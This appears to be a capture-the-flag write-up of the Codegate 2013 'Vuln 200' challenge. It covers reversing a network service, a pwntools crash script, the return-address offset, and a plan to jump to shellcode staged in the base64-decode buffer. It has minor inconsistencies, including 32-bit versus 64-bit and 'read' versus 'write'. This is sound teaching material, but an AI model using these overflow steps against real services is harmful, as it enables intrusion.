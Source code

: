 # Codegate 2013 Vuln 200 Writeup

## Initial Analysis

It's a 32-bit binary with no mitigations.

    $ file ./94dd6790cbf7ebfc5b28cc289c480e5e
    ./94dd6790cbf7ebfc5b28cc289c480e5e: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=0xce5456409e1bfe207cd58c5b77ce99125d3b8d0f, stripped
    $ checksec.sh --file 94dd6790cbf7ebfc5b28cc289c480e5e
    RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
    Partial RELRO   No canary found   NX disabled   No PIE          No RPATH   No RUNPATH   94dd6790cbf7ebfc5b28cc289c480e5e

Unfortunately, it doesn't appear to start out of the box:

    $ ./5b7420a5bcdc1da85bccc62dcea4c7b8
    [2]  + 11123 segmentation fault  ./5b7420a5bcdc1da85bccc62dcea4c7b8

So let's dive into the disassembly.

## Disassembly & Reversing

Right off the bat, we see that there's a simple ptrace anti-debugging check.
This doesn't actually do anything.  Ignore it.

    .text:08048ABE E8 AD FC FF FF         call    _ptrace
    .text:08048AC3 85 C0                  test    eax, eax
    .text:08048AC5 79 0C                  jns     short loc_8048AD3
    .text:08048AC7 C7 04 24 E6 9A+        mov     dword ptr [esp], offset s ; "Debugger Detected!!!"
    .text:08048ACE E8 DD FD FF FF         call    _puts
    .text:08048AD3

After creating a listener socket, the process forks immediately.
The parent attempts to log this to `./logs/pwn2log`, so let's create that directory.

    v27 = fopen("./logs/pwn2log", "a");
    fprintf(v27, "pid = %u", v28, 0);
    fprintf(v27, "\nLaunched into background (PID: %d)\n\n", v28);
    fclose(v27);

Now let's try again:

    $ gdb ./5b7420a5bcdc1da85bccc62dcea4c7b8
    gdb-peda$ r
    Starting program: /home/user/Desktop/CTF/Codegate 2013/Vulnerable/200/5b7420a5bcdc1da85bccc62dcea4c7b8 
    [New process 13200]

Great!  Let's connect and see what we're dealing with:

    $ nc localhost 7777                                                                                ⏎
    CODEGATE 2013 Util service!
    [*] md5
    [*] help
    [*] base64 encode
    [*] base64 decode
    [*] quit

Cool.  The actual logic for this menu is in `sub_8048EEB`.
What immediately stands out is an undocumented `"write"` command.

    else                                        // write
    {
      dump_file("BEFORE", dest_200);
      write(fd, "write running\nCopying bytes", 0x1Cu);
      memcpy(dest_200, buffer_190h + 5, bytes_recvd - 5);
      dump_file("AFTER", dest_200);
      write(fd, "\nDONE\nReturn to the main\n", 0x19u);
      result = 1;
    }

    int __cdecl dump_file(char *before_after, char *dest_200)
    {
      FILE *stream; // [sp+24h] [bp-24h]@1
      _DWORD *dwords; // [sp+28h] [bp-20h]@1
      signed int i; // [sp+2Ch] [bp-1Ch]@1
      dwords = dest_200;
      stream = fopen("./dump.txt", "a");
      fprintf(stream, "%s\n", before_after);
      for ( i = 0; i <= 239; i += 16 )
      {
        fprintf(stream, "%.8x: %.8x %.8x %.8x %.8x\n", dwords, *dwords, dwords[1], dwords[2], dwords[3]);
        dwords += 4;
      }
      fputc('\n', stream);
      return fclose(stream);
    }

So this simply writes raw stack data to a log file.  The first pass, the data is zeroed out, but then our data (except for the characters "read ") are copied into the buffer and dumped.

### Buffer Overflow

The issue here is that the `memcpy()` is effectively this:

    char input_buffer[0x200];
    char memcpy_buffer[200];
    int bytes_recvd = recv(fd, input_buffer, 0x200);
    memcpy(memcpy_buffer, input_buffer, bytes_recvd);

So an unchecked memcpy.  Let's see if we can blindly kill the return address, and find out how far
into our buffer we need to write to control execution.  
This example makes use of pwnies' [pwntools](https://github.com/pwnies/pwntools), see their github repo for more information.

    #!/usr/bin/env python
    from pwn import *
    r = remote('localhost', 7777)
    r.recvall()
    r.send('write ' + de_bruijn(0x200))

And we do get a crash, with lots of the register context controlled.

    [----------------------------------registers-----------------------------------]
    EAX: 0x1
    EBX: 0x61616763 ('cgaa')
    ECX: 0xf7c39688 --> 0x9 ('\t')
    EDX: 0x19
    ESI: 0x61616863 ('chaa')
    EDI: 0x61616963 ('ciaa')
    EBP: 0x61616a63 ('cjaa')
    ESP: 0xffffc620 ("claacmaacnaacoaa"...)
    EIP: 0x61616b63 ('ckaa')

Given that our buffer is 0x200 bytes long, let's find out where the return address is overwritten
in our buffer.

    $ python -c "print hex($(cyclic -o ckaa))"
    0xef

### ASLR Bypass

NX is disabled for the binary, so the stack is executeable -- but the stack location is still randomized.  Let's look around a bit and see if we can't find anything else.

From looking at the other functionality, we see that the functionality for the `base64 decode` command just reads 0x100 bytes of Base64-encoded data, and decodes it into a static buffer within the module.  All we have to do is send our shellcode as Base64, and set the return address to this buffer.

Luckily, we don't even have to know anything about base64 logic, since the server will do everything for us (it also has an `encode` option).

## Exploitation

Two steps:

1. Get our shellcode in the base64 decode buffer
2. Send overflow to kill return address, and point it at the decode buffer

Overall, this challenge was much easier than the Vuln100.
